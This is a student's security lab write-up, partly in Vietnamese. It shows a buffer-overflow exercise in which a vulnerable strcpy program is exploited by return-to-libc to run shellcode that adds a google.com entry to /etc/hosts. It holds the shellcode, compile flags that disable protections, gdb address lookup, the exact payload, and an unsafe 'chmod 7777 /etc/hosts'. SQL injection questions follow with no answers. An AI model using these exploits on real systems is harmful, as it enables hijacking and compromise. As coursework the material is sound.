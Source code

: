 # LAB#1, 22110093, Dinh Thi Thanh Vy, INSE331280E_02FIE
---

# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 

**Run virtual environment by docker file**
![alt text](./image/image.png)

Copy file c and file asm called name vuln.c and run_file.asm

**Run C program**
```
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```

-m32: biên dịch thành mã 32-bit vì shellcode là 32-bit.
-fno-stack-protector: tắt cơ chế bảo vệ stack.
-z execstack: cho phép thực thi mã trên stack (để chạy shellcode).

**Run asm file**
```
    nasm -g -f elf run_file.asm 
    ld -m elf_i386 -o run_file run_file.o
```

We can use return-to-libc to solve the problem

Đặt biến môi trường 

```
export MYBUF="/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file"

```


Xem lại biến môi trường bằng câu lệnh

```
env | grep MYBUF
```

Connect gdb to find the address of system, exit and the value "/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file"

After run the program by in gdb:

```r``` 

find the address by this command step by step
```
p system
p exit
find /home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file
```

![alt text](./image/imag-8.png)

system: 0xf7e50db0
exit: 0xf7e449e0
/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file: 0xffffd933


Stackframe 
![alt text](./image/image-4.png)


Using the stack frame, we can calculate the payload to write:

`padding (20 bytes) + address of system + address of exit + address of MYBUF’s value (/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file)`

this command must to be: 

```
run $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x33\xd9\xff\xff')")
```

exit gdb and connecting again

Run program by the command:

```
run $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x33\xd9\xff\xff')")
```
Check /etc/hosts folder by:
```
sudo cat /etc/hosts
```
![alt text](./image/image-5.png)

Why isn’t Google.com’s address listed here?


We need to configure permissions for the `/etc/hosts file.`

Set permissions by the command:
```
sudo chmod 7777 /etc/hosts
```
- sudo: Runs the command as superuser (root).
- chmod 7777: Gives read, write, execute permissions to everyone, plus SUID, SGID, and sticky bit.
- /etc/hosts: A critical system file that maps hostnames to IP addresses.

Connect gdb and run program again:
![alt text](./image/image-6.png)

Check folder /etc/hosts again

![alt text](./image/image-7.png)

Successfully!


# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
